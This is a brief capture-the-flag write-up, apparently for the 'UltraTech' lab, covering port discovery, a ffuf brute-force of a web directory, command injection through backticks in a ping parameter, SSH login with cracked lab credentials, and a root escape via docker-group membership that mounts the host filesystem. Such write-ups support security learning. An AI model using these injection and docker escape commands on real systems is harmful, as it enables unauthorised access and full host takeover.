







# UltraTech

We got a couple of opens ports. 
We got something on port `8081`<br>
<br>

<br>
<br>
<br>

We got another port open which is `Apache:31331`<br>

<hr>

`ffuf -w /usr/share/wordlists/dirb/big.txt -u http://utech.thm:31331/FUZZ -c -t 200`<br>


So what I am taking out of this is that when I see possible command injection I need to try all the symbols:<br>
* '
* "
* \`
* ;
* |

I had to do command injection on http://utech.thm/ping?ip=localhost but I forgot to try \`\`. <br>

<br>
<br>

```
user: r00t
hash: f357a0c52799563c7c7b76c1e7543a32
password: n100906
```

And I used it to ssh.<br>
<hr>

Then, I found that I was in `docker` group, so I did:<br>
```
docker images
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```